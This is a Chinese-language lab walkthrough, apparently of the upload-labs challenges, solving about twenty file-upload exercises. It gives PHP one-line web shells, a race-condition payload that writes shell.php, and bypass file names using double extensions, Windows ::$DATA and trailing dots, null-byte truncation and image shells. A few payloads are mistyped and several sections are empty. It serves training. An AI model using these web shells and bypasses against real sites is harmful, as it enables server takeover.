



- [pass1](#pass1)
- [pass2](#pass2)
- [pass3](#pass3)
- [pass4](#pass4)
- [pass5](#pass5)
- [pass6](#pass6)
- [pass7](#pass7)
- [pass8](#pass8)
- [pass9](#pass9)
- [pass10](#pass10)
- [pass11](#pass11)
- [pass12](#pass12)
- [pass13](#pass13)
- [pass14](#pass14)
- [pass15](#pass15)
- [pass16](#pass16)
- [pass17](#pass17)
- [pass18](#pass18)
- [pass19](#pass19)
- [pass20](#pass20)
- [pass21](#pass21)
# pass1
只允许上传图片，可以写个一句话木马
`<?php @eval[$_POST('qqqqq')];?>`    
改名称`1.php.jpg`，上传图片，burp抓包修改成`1.php`



利用一句话木马上传后蚁剑链接
# pass2
利用pass1的方法依然可以完成
# pass3
上传一句话木马后发现被重命名了

# pass4
更改后缀方法不行，显然是服务器端校验，burp抓包，利用windows特性，修改文件名为`1.php:.jpg`,上传成功后再次上传`1.<`,即可成功上传一句话木马
# pass5
试了很多种方法不行，尝试`1.php. .`成功上传且链接
# pass6
网上直接加空格方法不行，尝试`1.PHP `成功
# pass7
同pass6
# pass8
查看源码少了过滤文件末尾的点，上传文件，抓包改`1.php.`上传成功
# pass9
没有对后缀名中的’::$DATA’进行过滤。在php+windows的情况下：如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名.且保持"::$DATA"之前的文件名。利用windows特性，可在后缀名中加” ::$DATA”绕过,抓包，修改后缀为`1.php::$DATA`
# pass10
代码先是去除文件名前后的空格，再去除文件名最后所有的.，再通过strrchar函数来寻找.来确认文件名的后缀，但是最后保存文件的时候没有重命名而使用的原始的文件名，导致可以利用`1.php. .`（点+空格+点）来绕过
# pass11
可以通过`1.pphphp`来绕过，查看代码系统会自动删除一个php
# pass12
- 前提条件，php 版本 < 5.3.4且php的参数magic_quotes_gpc必须关闭
上传图片格式的一句话木马，burp抓包，修改文件路径upload/1.php%00,即可成功上传链接
# pass13
上传图片格式的一句话木马，burp抓包，修改文件路径upload/1.php+，在二进制hex页面把+对应的2b改成00，即可成功上传
# pass14
必须上传图片马绕过，首先做一个图片马
    copy 1.jpg/b+1.php/a 11.jpg
然后将图片马上传，使用页面中的文件包含漏洞
    ?file=upload/   .jpg

可以看到图片马已被成功解析，接下来就可以用蚁剑成功链接了
# pass15
方法同14
# pass16
方法同14
# pass17
下载一个gif，首先合成图片马，上传，发现底部图片马部分已经过滤，对比上传后的图片与本来的图片，发现前几行不变，在不变的部分插入一句话木马，保存，上传，再执行文件包含漏洞，成功连接
# pass18
条件竞争，利用burp或者python不断上传一句话木马生成文件1.php.7z,文件内容
```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_post["cmd"])?>');?>
```
然后蚁剑连接
# pass19
# pass20
还是00截断，首先上传带有图片头文件的图片马，上传后更改文件名为1.php+,然后把+对应的十六进制文件改成00,链接即可
# pass21
